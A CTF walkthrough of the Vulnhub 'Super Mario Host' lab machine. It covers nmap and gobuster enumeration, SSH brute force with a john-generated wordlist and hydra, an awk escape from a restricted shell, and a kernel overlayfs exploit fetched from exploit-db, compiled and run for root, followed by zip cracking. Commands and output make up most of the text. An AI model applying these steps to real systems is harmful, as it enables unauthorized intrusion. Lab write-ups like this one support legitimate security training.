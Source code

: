 ```yaml
---
title: Vulnhub - Super Mario Host
description: My writeup on Super Mario Host box.
categories:
 - vulnhub
tags: vulnhub john ssh kernel bruteforce gobuster searchsploit rbash awk
---
```


![](https://static.posters.cz/image/750/%CE%91%CF%86%CE%AF%CF%83%CE%B5%CF%82/super-mario-characters-i22822.jpg)

Hi all, Let's pwn it!

You can find the machine there > [Super Mario Host](https://www.vulnhub.com/entry/super-mario-host-101,186/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.6
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 00:44 EEST
Nmap scan report for mario.supermariohost.local (192.168.1.6)
Host is up (0.0010s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1c:97:c0:06:3b:cb:4f:6f:0f:65:8d:37:82:c4:23:59 (DSA)
|   2048 45:2d:fe:04:bb:98:ed:00:d7:7b:36:da:8f:cf:44:1c (RSA)
|   256 09:5c:25:9d:5c:54:ae:8d:90:e3:44:9b:5e:a1:4d:e0 (ECDSA)
|_  256 c9:d5:6a:32:53:ab:8a:43:74:4b:85:fb:a0:ba:40:52 (ED25519)
8180/tcp open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Mario
MAC Address: 00:0C:29:DF:8C:2E (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

When we visit the site, we get the default nginx page :

![](https://i.imgur.com/OW6e7me.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://$ip:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o gobuster1.txt
/vhosts (Status: 200)
/server-status (Status: 403)
```

`/vhosts` has a virtual host file :

```
<VirtualHost *:80>

	ServerName mario.supermariohost.local
	ServerAdmin webmaster@localhost
	DocumentRoot /var/www/supermariohost
	DirectoryIndex mario.php

	ErrorLog ${APACHE_LOG_DIR}/supermariohost_error.log
	CustomLog ${APACHE_LOG_DIR}/supermariohost_access.log combined
 
</VirtualHost>
```

`ServerName mario.supermariohost.local` is the domain, let's add it at `/etc/hosts`

```
$ cat /etc/hosts
192.168.1.6     mario.supermariohost.local
```

Perfect, now if we browser the website with the domain name we can see a different page : 

![](https://i.imgur.com/GuqIVTU.png)

Let's run `gobuster` on it.

```
$ gobuster dir -q -u http://mario.supermariohost.local:8180/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,html,txt -o gobuster2.txt
/mario.php (Status: 200)
/command.php (Status: 200)
/luigi.php (Status: 200
```

I did some enumeration on them & the only things i found useful are the usernames `mario` & `luigi` we can do SSH brute force with them.

We should craft first a wordlist using `john`, i'll use the `Wordlist` rule on the 2 usernames.

## SSH brute force - Shell as luigi - Bypassing limited shell

```
$ touch usernames.txt
$ printf "mario\nluigi" > usernames.txt 
$ john -wordlist:usernames.txt -rules:Wordlist -stdout > wordlist.txt
$ hydra -L usernames.txt -P wordlist.txt $ip ssh

[DATA] attacking ssh://192.168.1.6:22/
[STATUS] 97.00 tries/min, 97 tries in 00:01h, 114 to do in 00:02h, 16 active
[22][ssh] host: 192.168.1.6   login: luigi   password: luigi1
```
`
Let's login in!

```
$ ssh luigi@$ip
luigi@192.168.1.6's password: 
You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
luigi:~$ 
```

We're in a limited shell :

```
luigi:~$ echo $SHELL
*** forbidden path: /usr/bin/lshell
``` 

Let's check what command we can run :

```
luigi:~$ ?
awk  cat  cd  clear  echo  exit  help  history  ll  lpath  ls  lsudo  vim
```

We can exploit `awk` and open a normal `bash/sh` shell.

```
luigi:~$ awk 'BEGIN {system("/bin/bash")}'
luigi@supermariohost:~$ whoami
luigi
```

## Kernel privilege escalation

After lot of enumeration, i found nothing. I usually avoid to exploit old kernel versions, but on this box it's the only way to gain a root shell. So let's check kernel version :

```
luigi@supermariohost:~$ uname -a
Linux supermariohost 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
luigi@supermariohost:~$ uname -r
3.13.0-32-generic
```

Because it's an old box, we can see uses a really old kernel. Let's search for possible exploits with searchsploit.

```
$ searchsploit 3.13.0
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                              | linux/local/37292.c
```

This seems perfect, let's download it on target box & compile it.

```
luigi@supermariohost:/tmp$ wget -q https://www.exploit-db.com/download/37292 -O root.c
luigi@supermariohost:/tmp$ gcc root.c -o root
luigi@supermariohost:/tmp$ chmod +x root; ./root
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami;id
root
uid=0(root) gid=0(root) groups=0(root),112(lshell),1001(luigi)
```

## Cracking .zip & grab the flag

Now the challenge isnt over, we can see under `/root` directory a `.zip` :

```
# ls
Desktop  Documents  Downloads  Music  Pictures	Public	Templates  Videos  flag.zip
```

Probably we have to crack it & grab the flag, let's move it to `/var/www/html` so we can download it.

```
# mv flag.zip /var/www/html
```

In our box now :

```
$ wget -q $ip:8180/flag.zip
$ file flag.zip 
flag.zip: Zip archive data, at least v2.0 to extract
$ unzip flag.zip 
Archive:  flag.zip
```

We have to crack it, i'll use `fcrackzip` :

```
$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt flag.zip 


PASSWORD FOUND!!!!: pw == ilovepeach
$ unzip -P ilovepeach flag.zip 
Archive:  flag.zip
  inflating: flag.txt                
$ cat flag.txt 
Well done :D If you reached this it means you got root, congratulations.
Now, there are multiple ways to hack this machine. The goal is to get all the passwords of all the users in this machine. If you did it, then congratulations, I hope you had fun :D

Keep in touch on twitter through @mr_h4sh

Congratulations again!
								
mr_h4sh
```

awesome box! brings back lot of memories.

